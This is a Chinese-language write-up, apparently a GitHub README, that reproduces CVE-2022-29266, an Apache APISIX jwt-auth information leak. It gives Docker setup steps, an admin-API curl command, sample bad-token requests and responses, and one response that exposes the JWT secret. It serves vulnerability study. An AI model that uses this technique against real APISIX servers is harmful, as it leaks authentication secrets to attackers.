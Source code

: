# CVE-2022-29266 （Apache APISIX 信息泄露漏洞） 👋

## 概述

在2.13.1版本之前的APache APISIX中，攻击者可以通过向受jwt-auth插件保护的路由发送错误的JSON Web Token，通过错误信息响应获得插件配置的敏感信息。依赖库lua-resty-jwt中的错误逻辑允许向需要HS256 Token的端点发送RS256 Token，并在错误响应中包含原始密钥值。

关键点：

- 启用jwt-auth插件
- 错误的token信息造成报错显示错误信息
- 需要发送错误的RS256格式的token

1. 

## 复现分析

从apisix-docker拉取镜像
```https://github.com/apache/apisix-docker```

进入到xxx/apisix-docker/example目录

修改docker-compose.yml apisix部分的版本低于2.13.1 ，此处修改为2.10.5-alpine

```
apisix:
    image: apache/apisix:2.10.5-alpine
    restart: always
    volumes:
      - ./apisix_log:/usr/local/apisix/logs
      - ./apisix_conf/config.yaml:/usr/local/apisix/conf/config.yaml:ro
    depends_on:
      - etcd
    ##network_mode: host
    ports:
      - "9080:9080/tcp"
      - "9091:9091/tcp"
      - "9443:9443/tcp"
      - "9092:9092/tcp"
    networks:
      apisix:
```

命令sudo docker-compose up -d启动镜像

注意到由于要启用jwt-auth插件，由于没有使用过，所以点进配置的时候有点懵，直接看官方操作文档（https://apisix.apache.org/zh/docs/apisix/plugins/jwt-auth/）

官方手册中说明：“`jwt-auth` 是一个认证插件，它需要与 `consumer` 一起配合才能工作。” 那就需要配置consumer，继续查看手册发现以下配置代码，直接使用curl在9080端口上创建一个consumer，并配置了jwt-auth的key和secret。

```
curl http://127.0.0.1:9080/apisix/admin/consumers -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
{
    "username": "jack",
    "plugins": {
        "jwt-auth": {
            "key": "user-key",
            "secret": "my-secret-key"
        }
    }
}'
```

查看官方修改的commit发现（以下代码为官方commit修复代码）

1、当使用GET请求带上jwt参数的时候如果出错会触发jwt-auth的错误信息

2、当在headers头中填写错误的Authorization头的时候也会触发jwt-auth的错误信息

```
GET /hello?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ1c2VyLWtleSIsImV4cCI6MTU2Mzg3MDUwMX0.pPNVvh-TQsdDzorRwa-uuiLYiEBODscp9wv0cwD6c68
--- error_code: 401
--- response_body
{"message":"'exp' claim expired at Tue, 23 Jul 2019 08:28:21 GMT"}
{"message":"JWT token verify failed"}
--- error_log
JWT token verify failed: 'exp' claim expired at Tue, 23 Jul 2019 08:28:21 GMT



@@ -274,7 +278,9 @@ GET /hello
Authorization: bearer invalid-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ1c2VyLWtleSIsImV4cCI6MTg3OTMxODU0MX0.fNtFJnNmJgzbiYmGB0Yjvm-l6A6M4jRV1l4mnVFSYjs
--- error_code: 401
--- response_body
{"message":"invalid header: invalid-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9"}
{"message":"JWT token invalid"}
--- error_log
JWT token invalid: invalid header: invalid-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```

到这已经能直接复现了，两种方式可以选择一种即可验证。

回顾最开始提到的注意中“需要发送错误的RS256格式的token”问题，为什么不直接提供随便字符？而是需要提供一个错误的RS256格式的token，官方其实修改了两个地方：

1、修复了触发抛出jwt-auth错误信息的逻辑

2、修复了jwt_obj.valid和jwt_obj.verified抛出错误信息的异常

通过看第2点的名字也应该能知道，valid是判断token格式是否合法，verified才是验证，然而两者中只有verified时出错了才会返回key，而触发valid不会触发，以下是两种不同情况触发的返回包：

1、jwt合法但是有错误

```
HTTP/1.1 401 Unauthorized
Date: Fri, 22 Apr 2022 15:41:03 GMT
Content-Type: text/plain; charset=utf-8
Connection: close
Server: APISIX/2.10.5
Content-Length: 75

{"message":"Decode secret is not a valid cert\/public key: my-secret-key"}

```

2、jwt格式不合法

```
HTTP/1.1 401 Unauthorized
Date: Fri, 22 Apr 2022 15:40:47 GMT
Content-Type: text/plain; charset=utf-8
Connection: close
Server: APISIX/2.10.5
Content-Length: 33

{"message":"invalid jwt string"}
```

## 回顾

漏洞本身不复杂

复现的时候多看官网文档，一开始没看到consumer添加实在9080端口，一直在9000上搞了半天.....

## 参考

https://www.openwall.com/lists/oss-security/2022/04/20/1

https://github.com/apache/apisix/pull/6846/files#diff-9b9604832706062cf84d2e9b7a13754c0f21a9a0b34cf271a4eb059f4bffbdaaL436
